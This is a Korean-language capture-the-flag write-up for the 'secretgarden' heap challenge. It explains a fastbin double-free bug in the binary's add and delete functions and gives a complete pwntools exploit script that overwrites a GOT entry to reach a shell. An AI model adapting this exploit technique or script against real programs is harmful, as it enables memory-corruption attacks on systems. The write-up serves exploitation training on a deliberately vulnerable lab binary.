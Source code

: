 # 문제
***

secretgarden 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
secretgarden: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=22cb8aae67a3f8faed65bd339fa5b1eff20ae57d, not stripped
```

바이너리 코드

__add()__
```c
int add()
{
    ...
    size_t size; // [rbp-20h] 
    ...
    LODWORD(size) = 0;
    ...
    else
    {
        s = malloc(0x28);
        memset(s,0,0x28);
        printf("Length of the name :");
        if ((unsigned int)__isoc99_scanf("%u",&size) == -1 )
            exit(-1);
        buf = malloc((unsigned int)size);
        ...
        printf("The name of flower :")
        read(0,buf,(unsigned int)size);
        *((_QWORD *)s+1) = buf;
        printf("The color of the flower :");
        __isoc99_scanf("%23s", (char *)s+16);
        *(_DWORD *)s = 1;
        for(HIDWORD(size) = 0; HIDWORD(size) < 0x63; ++HIDWORD(size))
        {
            if (!*(&flowerlist + HIDWORD(size)))
            {
                *(&flowerlist + HIDWORD(size)) = s;
                break;
            }
        }
        ++flowercount;
        result = puts("Successful !");
    }
    ...
}
```

__del()__
```c
int del()
{
    ...
    if (flowercount)
    {
       printf("Which flower do you want to remove from the garden");
       __isoc99_scanf("%d",&v2);
       if (v2 <= 0x63 && *(&flowerlist + v2))
       {
           *(_DWORD *)*(&flowerlist + v2) = 0;
           free(*((void **)*(&flowerlist+v2)+1));
           puts("Successful");
       }
    }
    ...
}
```

64비트에서 fastbin은 0x20 - 0xb0 (16 바이트 간격) <br/><br/>

__del()__ 함수에서는 __add()__ 함수에서 flower name을 저장하기 위해 할당한 chunk를 free 한다. 이 때 해당 chunk가 free chunk인지 검증을 하지 않고 free를 하기 때문에 fastbin_dup 취약점이 존재한다. 

## fastbin_dup 취약점
__조건__
- 동일한 크기의 fast chunk의 할당 및 free가 자유로워야 한다.
- free된 fast chunk를 한 번 더 free할 수 있어야 한다. (double free bug)

<br/>

__공격 방법__
- 동일한 크기의 chunk 3개 할당 (chunk 1,2,3)
- chunk 1 free 후 chunk 2 free
- chunk 1 다시 free
- 위의 chunk와 동일한 크기의 chunk 3개 할당
- chunk 4와 chunk 6의 주소가 동일함

## exploit 방법
1. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복) 
2. __del()__ 함수를 통해서 첫 번재와 두 번재로 할당받은 chunk를 free한다.
3. __del()__ 함수를 통해서 첫 번째로 할당받은 chunk를 free한다.
4. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. chunk의 앞 8바이트에 (원하는 영역 -16) 을 쓴다.
5. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복)
6. 5번을 통해서 내가 원하는 영역을 chunk로 할당받을 수 있다. 

__주의할 점__ <br/><br/>
내가 원하는 chunk를 할당받기 위해서는 (원하는 영역 -8)에 해당 chunk의 사이즈가 정확히 setting 되어 있어야 한다. 즉 위에서는 (원하는 영역 -8)에 0x60이 저장되어 있어야 한다. 근데 사이즈 체크를 할 때 하위 4바이트만 가지고 체크하는 것 같다. 이 문제에서 (원하는 영역 -8)에 0x??00000000000060이 저장되어 있는데 할당이 된다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round4/lab12/secretgarden"

def add(length,name,color):
	p.recvuntil("choice : ")
	p.send("1")
	p.recvuntil("name :")
	p.sendline(length)
	p.recvuntil("flower :")
	p.send(name)
	p.recvuntil("flower :")
	p.sendline(color)
	p.recvuntil("!\n")

def del_name(index):
	p.recvuntil("choice : ")
	p.send("3")
	p.recvuntil("garden:")
	p.sendline(index)
	p.recvuntil("Successful\n")

p=process(file_path)

got_sec=0x602002-8
magic=0x400c7b

add("80","3ffr3s","green")
add("80","w1ll_exploit","green")
#add("80","secret_garden","green")

del_name("0")
del_name("1")
del_name("0")

add("80",p64(got_sec),"ha_we")
add("80","plz!!!","ba_we")
add("80","asldkjf","123")

p.recvuntil("choice : ")
p.send("1")
p.recvuntil("name :")
p.sendline("80")
p.recvuntil("flower :")
p.send("AAAAAA"+"\x00"*8+p64(magic)*2)
p.recvuntil("flower :")
p.sendline("finish!!!")

p.interactive()
```

